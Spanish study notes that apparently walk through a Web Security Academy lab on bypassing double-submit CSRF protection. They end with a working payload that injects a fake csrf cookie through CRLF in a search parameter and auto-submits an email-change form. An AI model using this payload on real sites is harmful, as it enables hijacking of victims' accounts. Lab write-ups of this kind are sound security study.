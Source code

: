 En esta clase explotamos una implementación insegura del sistema de protección CSRF conocido como doble envío de token. El servidor compara el valor del token enviado en el cuerpo del formulario con el valor de una cookie del mismo nombre, pero ambos pueden ser controlados por el atacante.

Para llevar a cabo el ataque, aprovechamos que la funcionalidad de búsqueda del sitio refleja parámetros en la cabecera Set-Cookie. Esto nos permite inyectar una cookie csrf falsa en el navegador de la víctima usando un enlace manipulado.

Después, simplemente construimos un formulario que envía el mismo valor falso en el cuerpo de la petición, y así engañamos al servidor haciéndole creer que la petición es legítima.

Este ataque demuestra por qué el doble envío de token no es una protección fiable si el valor del token puede ser manipulado desde el navegador.

Solucion
hacemos lo mismo nos logeamos intentamos cambiar de correo y pues luego lo interceptamos y lo mandamos al repeater
![[Pasted image 20250723210529.png]]
y bueno aqui vemos que tenemos el mismo csrf token en los 2 lados
aasi que vamos a trastear
![[Pasted image 20250723210745.png]]
ya con esto podemos construir nuestro payload haciendo los pasos en donde vemos el formulario luego copiamos y modificamos 
despues lo que hacemos es ir al la barra de busquedad y poner cualquier cosa y interceptarlo para ver si se puede emplear una nuesva set cookie
![[Pasted image 20250723211345.png]]
es lo mismo me retorna lo mismo
vamos a modificarlo
![[Pasted image 20250723211753.png]]
y el payload queda asi (<form class="login-form" name="change-email-form" action="https://0ab5005d0309bc19802d17e500bd0010.web-security-academy.net/my-account/change-email" method="POST">                          
    <input type="hidden" name="email" value="hola@tenso.com">
    <input required="" type="hidden" name="csrf" value="fake">
</form>

<img src="https://0ab5005d0309bc19802d17e500bd0010.web-security-academy.net/?search=a%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit()">)
